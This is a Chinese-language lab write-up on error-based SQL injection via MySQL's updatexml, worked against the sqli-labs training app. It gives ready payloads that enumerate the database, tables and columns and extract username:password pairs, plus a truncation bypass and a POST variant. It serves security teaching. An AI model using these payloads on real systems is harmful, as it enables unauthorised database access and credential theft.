





> Environment: PHP 7.3.4 + MySQL 5.7.26
> Lab: sqli-labs Less-5 & Less-11

## 1.0 报错注入

**01 逻辑原理:**

- 当无union回显时,优先使用报错注入

- `updatexml` 函数在处理第二个参数（XPath 路径）时，若遇到非法 XPath 表达式会抛出错误，并将错误内容直接返回到页面

**02 报错注入Payload模板:**

```mysql
?id=1[闭合符号] and updatexml(1, concat(0x7e, ([标量子查询]), 0x7e), 1) [注释]
```

### 1.1 手工注入流程

**01 符号闭合, 确认报错**

```mysql
?id=1'报错 | ?id=1'--+ 恢复
```

**02 爆库名**

```mysql
?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```



**03 爆表名**

```mysql
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 3,1),0x7e),1)--+
```

> 通过修改 `limit` 偏移量（`0,1` → `1,1` → …）可逐表爆出所有表名。此处以 `limit 3,1` 直接定位到第 4 个表(users)作为示例



> limit 3,1 第四个表为users

**04 爆列名**

```mysql
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),0x7e),1)--+
```


> `limit 1,1`, `limit 2,1` 分别为 username、password 字段

**05 爆数据**

```mysql
?id=1' and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from security.users limit 0,1),0x7e),1)--+
```



> 使用 `limit` 逐行提取数据即可

### 1.2 报错长度限制与绕过

`updatexml` 的报错信息最长返回 32 个字符，使用 `group_concat` 聚合多行时极易被截断。常用两种绕过方式：

| 方式 | Payload 特征 | 优点 | 缺点 |
|------|-------------|------|------|
| 逐行提取 | `concat` + `limit 0,1` 递增 | 稳定不截断 | 需多次请求 |
| 分段读取 | `substr(group_concat(...), 1, 30)` | 一次性聚合 | 需手工拼接结果 |

### 1.3 POST 报错注入（Less-11）

POST 场景只需将注释符改为 `#`，其余步骤完全一致, 例如：

```mysql
-admin' and updatexml(1,concat(0x7e,database(),0x7e),1) #
```



- 或用 Burp Suite:

```bash
uname=-admin' and updatexml(1,concat(0x7e,database(),0x7e),1) # &passwd=&submit=Submit
```

